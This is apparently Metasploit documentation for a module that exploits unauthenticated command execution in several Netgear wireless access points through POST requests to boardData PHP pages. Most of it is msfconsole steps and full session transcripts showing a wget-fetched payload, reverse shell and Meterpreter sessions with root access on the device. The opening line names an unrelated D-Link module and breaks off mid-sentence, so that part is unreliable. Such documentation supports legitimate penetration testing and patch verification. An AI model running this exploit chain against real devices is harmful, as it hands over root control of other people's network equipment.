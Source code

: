 The module dlink_dir850_(un)auth_exec leverages an unauthenticated arbitrary command execution vulnerability to. Netgear WN604 before 3.3.3 and WN802Tv2, WNAP210v2, WNAP320, WNDAP350, WNDAP360, and WNDAP660 before 3.5.5.0 are vulnerable. The vulnerability occurs within how the router handles POST requests from (1) boardData102.php, (2) boardData103.php, (3) boardDataJP.php, (4) boardDataNA.php, and (5) boardDataWW.php. The vulnerability was discovered by Daming Dominic Chen, creator of FIRMADYNE (https://github.com/firmadyne/firmadyne).

## Vulnerable Application


  1. Start msfconsole
  2. Do : `use exploit/linux/http/netgear_unauth_exec`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set SRVHOST [Your server's IP]` if your payload isn't being hosted on another system
  5. Do : `set LHOST [Your IP]`
  6. Do : `set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp` if you want meterpreter session
  7. Do : `exploit`
  8. If router is vulnerable, payload should be dropped via wget (the default HTTP stager) and executed, and you should obtain a session


## Example with default payload (linux/mipsbe/shell_reverse_tcp)

```
msf > use exploit/linux/http/netgear_unauth_exec 
msf exploit(linux/http/netgear_unauth_exec) > set RHOST 192.168.200.100
RHOST => 192.168.200.100
msf exploit(linux/http/netgear_unauth_exec) > set LHOST 192.168.200.99
LHOST => 192.168.200.99
msf exploit(linux/http/netgear_unauth_exec) > set SRVHOST 192.168.200.99
SRVHOST => 192.168.200.99
msf exploit(linux/http/netgear_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.200.99:4444 
[*] Using URL: http://192.168.200.99:8080/weLFnsgfRmQBR
[*] Client 192.168.200.100 (Wget) requested /weLFnsgfRmQBR
[*] Sending payload to 192.168.200.100 (Wget)
[*] Command shell session 1 opened (192.168.200.99:4444 -> 192.168.200.100:55837) at 2018-10-09 10:46:29 +0630
[*] Command Stager progress - 118.33% done (142/120 bytes)
[*] Server stopped.

id
uid=0(root) gid=0(root)
uname -a
Linux netgear123456 2.6.32.70 #1 Thu Feb 18 01:39:21 UTC 2016 mips unknown

```

## Example with meterpreter (linux/mipsbe/meterpreter/reverse_tcp)

```
msf > use exploit/linux/http/netgear_unauth_exec 
msf exploit(linux/http/netgear_unauth_exec) > set RHOST 192.168.200.100
RHOST => 192.168.200.100
msf exploit(linux/http/netgear_unauth_exec) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf exploit(linux/http/netgear_unauth_exec) > set LHOST 192.168.200.99
LHOST => 192.168.200.99
msf exploit(linux/http/netgear_unauth_exec) > set SRVHOST 192.168.200.99
SRVHOST => 192.168.200.99
msf exploit(linux/http/netgear_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.200.99:4444 
[*] Using URL: http://192.168.200.99:8080/aO2fz5
[*] Client 192.168.200.100 (Wget) requested /aO2fz5
[*] Sending payload to 192.168.200.100 (Wget)
[*] Sending stage (1108408 bytes) to 192.168.200.100
[*] Meterpreter session 1 opened (192.168.200.99:4444 -> 192.168.200.100:55839) at 2018-10-09 10:48:54 +0630
[*] Command Stager progress - 119.47% done (135/113 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.200.100
OS           :  (Linux 2.6.32.70)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 

```

